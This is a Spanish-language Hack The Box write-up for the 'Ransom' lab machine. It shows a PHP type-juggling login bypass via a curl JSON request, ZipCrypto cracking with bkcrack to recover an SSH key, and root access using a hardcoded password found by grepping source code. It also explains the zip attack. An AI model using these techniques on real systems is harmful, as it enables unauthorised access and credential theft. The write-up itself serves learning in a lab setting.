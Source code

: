 ```yaml
---
layout: single
title: Ransom - Hack The Box
excerpt: "Bypass de SSRF"
date: 2018-11-24
classes: wide
header:
  teaser: /assets/images/htb-forge/forge1.png
categories:
  - hackthebox
  - infosec
tags:
  - hackthebox
  - SSRF  
---
```


# 10.10.11.153 - Ransom

![](/assets/images/htb-ransom/ransom1.png)

---------------------

# Part 1: Reconocimiento inicial 

Puertos abiertos: 22(ssh), 80(http), 

```console
└─$ whatweb http://10.10.11.153
[302 Found] Apache[2.4.41], Cookies[XSRF-TOKEN,laravel_session] -> [Redirecting to http://10.10.11.153/login]
http://10.10.11.153/login [200 OK] Apache[2.4.41], Bootstrap, Cookies[XSRF-TOKEN,laravel_session], JQuery[1.9.1], Laravel, PasswordField[password], Script[text/javascript]
```

Me sale un campo para meter un login, me piden solo una contraseña:  
```GET http://10.10.11.153/api/login?password=``` Si pones una mala "Invalid Password"

```console
└─$ wfuzz -c -t 200 -w /usr/share/wordlists/rockyou.txt  "http://10.10.11.153/api/login?password=FUZZ"
000002150:   429        36 L     125 W      6625 Ch     "amazing"
```
En seguida el fuzzing nos cancelan

```console
└─$ wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.11.153/FUZZ
000000040:   200        172 L    372 W      6104 Ch     "login"
000000052:   500        217 L    17833 W    599984 Ch   "register"
000000537:   301        9 L      28 W       310 Ch      "css"
000000940:   301        9 L      28 W       309 Ch      "js"
└─$ wfuzz -c --hc=400 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.10.10.11.153" -u http://10.10.11.153/ -t 100
```
----------------------------
# Part 2: PHP - Type Juggling

![](/assets/images/htb-ransom/ransom2.PNG)

El panel de login es 10.10.11.154/login, pero la peticion se pasa a /api/login. Las apis son una capa mas profunda de la web y que está oculta al usuario ya que 
están pensadas para los programas y la parte más técnica, al ser algo oculto no suele estar tan protegido.   

En algunos casos un /login puede estar protegido antes ataques como SQLi o Type Juggling mientras que la api no.  
En este caso pasa eso, teneos laravel, que trabaja con PHP, es vulnerable a php Type juggling:  
```php
php > if ("contraseña"=="contraseña") { echo "Correcto"; } else { echo "Incorrecto";}
Correcto

Se puede saltar con el valor booleano "true":
php > if ("contraseña"==true) { echo "Correcto"; } else { echo "Incorrecto";}
Correcto

# Una manera de securizar esto es con un triple "="
php > if ("cucuxii"===true) { echo "Correcto"; } else { echo "Incorrecto";}
Incorrecto
```
Si ponemos en el navegador "true" no nos lo toma de manera correcta. Si miramos por el burpsuite, vemos que la peticion es a ```GET a /api/login?password="true"```  
Lo primero esque ya es un poco raro mandar una contraseña con GET (datos en la url). SI cambiamos a POST dice que no admite el metodo.

![](/assets/images/htb-ransom/ransom3.PNG)
![](/assets/images/htb-ransom/ransom4.PNG)

En cambio si mandamos un GET como si fuera un post o sea ```POST a /api/login  data=password="true"``` nos lo  pilla pero nos dice que faltan el campo contraseña.
Cuando mandas algo pero se queja de que no los has mandado es porque no es el formato que quiere, por lo que hay que mandarlo como json:  
  
La peticion sería asi (vemos que true se manda no como string sino como booleando (la diferencia son las ""))  
Si no disponemos de un entorno de pentesting avanzado con programas como burpsuite, se puede hacer con curl:

```console
└─$ curl -i http://10.10.11.153
# Para pillar las cookies

└─$ curl -i -s -k -L -X GET -H 'Content-Type: application/json'  \
--cookie 'XSRF-TOKEN=eyJpdiI6Img4MWhKVFRreV...; laravel_session=eyJpdiI6IlZCdXcz...' \
--data-binary $'{\"password\":true}' http://10.10.11.153/api/login
```
![](/assets/images/htb-ransom/ransom5.PNG)

---------------------
# Parte 3: Crackeando un Zip

Una vez hecho esto, podemos visitar 10.10.11.153/ sin que nos redirija a login.  
Podemos bajarnos un zip pero está protegido con contraseña:  
```console
└─$ unzip uploaded-file-3422.zip
Archive:  uploaded-file-3422.zip
[uploaded-file-3422.zip] .bash_logout password:
```
Jhon the ripper tiene herramientas para romper muchos tipos de archivos:  
```console
└─$ locate 2john | grep "zip"
/usr/sbin/zip2john
└─$ zip2john uploaded-file-3422.zip > hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
# No hay suerte
```

```console
└─$ 7z l uploaded-file-3422.zip
# Vemos que es el directorio de root pero comprimido, tenemos entre otros una id_rsa

└─$ 7z l uploaded-file-3422.zip -slt 
# Información tecnica dice que el metodo de encriptacion es ZipCrypto Deflate
```
Si buscas ```cracking zipcrypto deflate``` encontrarás una herramienta llamada [bkrack](https://github.com/kimci86/bkcrack) 

La herramienta bcrack nos pide que le demos un archivo que se parezca mucho a uno de los del zip encriptado.  
En concreto sería ```/home/cucuxii/.bash_logout```

```console
└─$ git clone https://github.com/kimci86/bkcrack
└─$ cd bkcrack
└─$ cmake -S . -B build -DCMAKE_INSTALL_PREFIX=install
└─$ cmake --build build --config Release
└─$ cmake --build build --config Release --target install

└─$ cp ~/.bash_logout ./bash_logout
└─$ zip comprimido.zip bash_logout
└─$ cp ~/Maquinas/htb/Ransom/uploaded-file-3422.zip .
└─$ ./bkcrack -C uploaded-file-3422.zip -c ".bash_logout" -P "comprimido.zip" -p "bash_logout"
7b549874 ebc25ec5 7e465e18

└─$ ./bkcrack -C ./uploaded-file-3422.zip -k 7b549874 ebc25ec5 7e465e18 -U nuevo.zip contraseña
└─$ unzip nuevo.zip

└─$ chmod 600 id_rsa
└─$ ssh -i id_rsa root@10.10.11.153
root@10.10.11.153's password:

└─$ cat authorized_keys
ssh-rsa AAAAB3NzaC1yc2EA...13N6/M= htb@ransom
└─$ ssh -i id_rsa htb@10.10.11.153
```
------------------------------
# Parte 4: Escalando privilegios

Entramos con un usaurio de bajos privilegios:  
- Grupos: groups=1000(htb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)  
- Procesos: /usr/lib/udisks2/udisksd  
- Existe el archivo de configuracion de apache: /etc/apache2/sites-enabled/000-default.conf  

Al ser apache el archivo de configuracion 000-default:  
```console
htb@ransom:/tmp$ cat /etc/apache2/sites-enabled/000-default.conf
<VirtualHost *:80>
	ServerAdmin webmaster@localhost
	DocumentRoot /srv/prod/public
htb@ransom:/srv/prod$ ls public/
# Codigo fuente:
css  favicon.ico  fonts  index.php  js  robots.txt  scss  uploaded-file-3422.zip  user.txt
htb@ransom:/srv/prod$ ls ../
# Mas codigo fuente del server
README.md  artisan    composer.json  config    package.json  public     routes      storage  vendor
app        bootstrap  composer.lock  database  phpunit.xml   resources  server.php  tests    webpack.mix.js
htb@ransom:/srv/prod$ grep -riE "password" 2>/dev/null
# Demasiadas cosas, probaremos a buscar de carpeta en carpeta
htb@ransom:/srv/prod/app$ grep -riE "password" 2>/dev/null
Http/Controllers/AuthController.php:        if ($request->get('password') == "UHC-March-Global-PW!") {

htb@ransom:/srv/prod/app$ su root
Password: UHC-March-Global-PW!
root@ransom:/srv/prod/app# whoami
root
```

---------------------------
# Extra: Analizando bckrack

Mirando la documentación del repo pone que:  
- Está utilizando el ataque "Biham and Kocher's"    
- Los zips se suelen encriptar con el cifrado simetrico (una sola llave) basado en contraseña o "PKWARE/Zipcrypto"  

Zipcrypto genera una cadena de bits random, en plan "23$(¡.d" que se XORrea con el contenido de una entrada en texto plano para crear un texto cifrado  
La operacion XOR lo que hace es pasar todos los caracteres a binario y los compara de tal manera que si los bits son iguales da 0 y si son distintos 1:
```
Cipher ->    0110101        Cipher    ->  0110101         Decipher  ->  1101001
key    ->    1011100        Decipher  ->  1101001         Key       ->  1011100
             -------                      --------                      --------
Decipher ->  1101001        Key       ->  1011100         Cipher    ->  0110101 
```
El texto cifrado de 32 bits se inicia con la contraseña y se va descrifrando con el "Biham and Kocher's" 
Este requiere que tengamos un texto de mas de 12 bytes que sea igual que el cifrado para sacar el patron de cifrado que sirve para romperlo todo.



